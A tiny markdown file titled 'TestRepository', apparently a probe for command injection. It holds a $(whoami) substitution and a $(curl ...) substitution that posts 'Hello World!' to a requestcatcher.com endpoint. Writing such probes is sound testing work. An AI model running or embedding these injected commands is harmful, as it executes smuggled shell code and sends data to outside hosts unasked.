 # TestRepository
$(whoami)

$(curl -X POST -d 'Hello World!' https://slackapptest.requestcatcher.com/test)

fake and stuff

